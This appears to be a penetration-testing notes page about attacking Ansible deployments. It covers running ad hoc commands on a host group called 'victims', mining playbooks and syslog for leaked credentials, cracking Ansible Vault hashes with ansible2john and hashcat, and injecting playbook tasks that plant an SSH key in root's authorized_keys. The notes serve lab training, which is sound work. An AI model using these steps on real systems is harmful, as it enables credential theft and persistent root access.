 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
                
<!-- media="screen" -->         
<style>
  div.highlighter-rouge {
    position: relative;
    font-family: 'Source Code Pro', monospace;
    font-size: 14px;
  }

  div.highlighter-rouge button {
    display: inline-block;
    cursor: pointer;
    background-color: #252525;
    border: 2px solid #000;
    border-radios: 8px solid #000;
    color: var(--text-color);
    line-height: 1.5px;
    padding: 15px 10px;
    text-align:center;
    transition-duration: .10s;
    transition-property: all;
    position: absolute;
    top: 7px;;
    left: 940px;
  }
</style>

<!--     
font-weight: 300;
transition-timing-function: cubic-bezier(.4,0,.2,1);
color: #fff;
outline: 0;
background: #000;
border-radius: 8px;
border-color: #252525;
-->


<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = "Copy";
      //copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      
      
      //mouseover
      copyCodeButton.addEventListener('mouseover', () => {
      copyCodeButton.style.borderColor = 'white';
      copyCodeButton.style.fontColor = 'white';
      });

      //mouseout
      copyCodeButton.addEventListener('mouseout', () => {
      copyCodeButton.style.borderColor = '#252525';
      copyCodeButton.style.fontColor = '#DBDBDB';
      });
      
      //onclick
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = "Copy";
        copyCodeButton.style.borderColor = 'red';
        copyCodeButton.style.fontColor = 'red';
        //copyCodeButton.classList.add("btn-success");
        //copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = "Copy";
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.style.backgroundColor = '#252525';
          copyCodeButton.classList.add("btn-outline-primary");
        }, 500);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
```yaml
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
